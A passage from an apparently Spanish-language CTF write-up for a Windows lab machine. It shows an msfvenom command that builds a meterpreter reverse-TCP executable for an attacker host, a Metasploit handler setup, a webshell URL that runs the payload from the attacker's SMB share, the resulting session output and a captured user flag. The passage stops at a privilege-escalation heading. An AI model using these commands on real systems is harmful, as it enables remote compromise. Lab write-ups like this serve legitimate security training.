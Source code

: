 Vemos que ha funcionado de forma correcta, ahora vamos a dejar esta sesion en segundo plano realizando la combinacion de `Ctrl+Z` y despues le daremos a `Y`.

Y utilizaremos el `exploit` llamado `suggester` para ver que vulnerabilidades encuentra, pero veremos que no nos deja con la `shell` que tenemos por lo que vamos a generar un `.exe` para hacernos una `shell` con el `meterpreter` directamente y asi poder utilizar dicho modulo.

### MSFVENOM

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_ATTACKER> LPORT=<PORT> -f exe > shell.exe
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Veremos que se nos ha generado de forma correcta, por lo que ahora ejecutaremos lo siguiente, como tenemos el servidor de `SMB` todavia abierto vamos a ejecutarlo desde dicho servidor:

Pero antes de nada tendremos que establecer el `PAYLOAD` del `multi/handler` de la siguiente forma:

```shell
set PAYLOAD windows/meterpreter/reverse_tcp
```

Ahora si ejecutamos eso:

```
URL = http://<IP>/webshell.aspx?cmd=\\<IP_ATTACKER>\kali\shell.exe
```

Ahora si nos vamos a donde tenemos la escucha de `metasploit` veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.1.146:7777 
[*] Sending stage (177734 bytes) to 192.168.1.153
[*] Meterpreter session 1 opened (192.168.1.146:7777 -> 192.168.1.153:49174) at 2025-03-25 08:17:06 -0400

meterpreter > getuid
Server username: NT AUTHORITY\Servicio de red
```

Vamos a leer la flag del usuario:

> user.txt

```
hdgrfvvf8s7dre5w7vg23rfewf
```

## Escalate Privileges
